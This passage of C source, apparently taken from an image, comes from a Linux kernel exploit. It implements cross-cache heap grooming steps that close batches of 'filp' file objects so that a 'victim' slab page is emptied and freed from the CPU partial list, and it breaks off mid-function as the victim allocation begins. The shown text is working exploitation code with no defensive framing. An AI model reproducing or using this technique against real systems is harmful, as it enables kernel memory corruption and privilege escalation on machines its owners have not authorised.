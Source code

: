 ```c
// Free all the filps from steps 2, and 3. This will place our victim 
// page in the partial list completely empty
void cc_4(void)
{
    //info("Freeing `filp` objects from CC2 and CC3...");
    for (size_t i = 0; i < g_cc2_num; i++)
    {
        close(g_cc2_fds[i]);
    }

    for (size_t i = 0; i < g_cc3_num; i++)
    {
        close(g_cc3_fds[i]);
    }
    usleep(100000);

    return;
}

// Cross-cache 5:
// Free an object for each slab we allocated in Step 1 to overflow the 
// partial list and get our empty slab in the partial list freed
void cc_5(void)
{
    //info("Freeing `filp` objects to overflow CPU partial list...");
    for (size_t i = 0; i < g_cc1_num; i++)
    {
        if (i % OBJS_PER_SLAB == 0)
        {
            close(g_cc1_fds[i]);
        }
    }
    usleep(100000);

    return;
}

// Reset all state associated with a cross-cache attempt
void cc_reset(void)
{
    // Close all the remaining FDs
    info("Resetting cross-cache state...");
    for (size_t i = 0; i < CROSS_CACHE_MAX; i++)
    {
        close(g_cc1_fds[i]);
        close(g_cc2_fds[i]);
        close(g_cc3_fds[i]);
    }

    // Reset number trackers
    g_cc1_num = 0;
    g_cc2_num = 0;
    g_cc3_num = 0;
}

// Do cross cache process
void do_cc(void)
{
    // Start cross-cache process
    cc_1();
    cc_2();

    // Allocate the victim filp
```